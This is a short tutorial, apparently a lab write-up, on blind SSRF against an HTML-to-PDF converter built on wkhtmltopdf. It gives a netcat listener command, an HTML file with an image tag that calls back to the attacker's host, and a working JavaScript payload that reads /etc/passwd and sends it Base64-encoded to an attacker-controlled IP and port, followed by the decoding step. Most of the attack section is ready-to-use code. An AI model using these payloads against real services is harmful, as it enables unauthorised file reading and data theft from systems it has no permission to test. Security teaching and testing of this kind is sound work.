


Blind SSRF File Upload PDF Converter
Here in this example we have a website that allow us to convert an HTML page to PDF
When we upload HTML files the application returns the same response regardless of the structure and content of the submitted files.
We cannot observe any response related to the processing of the submitted HTML file on the front end.
Should we conclude that the application is not vulnerable to SSRF? Of course not!

Set up the attack
1. Set up the listener on the machine
ifconfig
nc -nvlp 9091

2. Upload a malicious html file that will try to connect with our machine
<!DOCTYPE html>
<html>
<body>
<a>Hello World!</a>
<img src="http://<SERVICE IP>:PORT/x?=viaimgtag">
</body>
</html>

and we got a response!
4. By inspect the response from the target above in the User-Agent we notice wkhtmltopdf.
If we browse wkhtmltopdf's downloads webpage, the below statement catches our attention.
Great! seams that we can execute JavaScript in wkhtmltopdf!
5. Let us leverage this functionality to read a local file by creating the following HTML document.
In this case, we are using two XMLHttpRequest objects:
◇ var readfile → for reading the local file
◇ var exfil → to send the local file to our server. We are using the btoa function to send the data encoded in Base64.
<html>
<body>
<b>Exfiltration via Blind SSRF</b>
<script>
var readfile = new XMLHttpRequest(); // Read the local file
var exfil = new XMLHttpRequest(); // Send the file to our server
readfile.open("GET","file:///etc/passwd", true);
readfile.send();
readfile.onload = function() {
if (readfile.readyState === 4) {
var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
exfil.open("GET", url, true);
exfil.send();
}
}
readfile.onerror = function(){document.write('<a>Oops!</a>');}
</script>
</body>
</html>
6. Send the request with Burp
7. We should have got a response from our listening machine with the local file Base64 encoded
8. Decode the base64 file encoded.
-d → decode data
echo "cm9vdDp4OjA6MDpyb290Oi9yb<SNIP>" | base64 -dBINGO!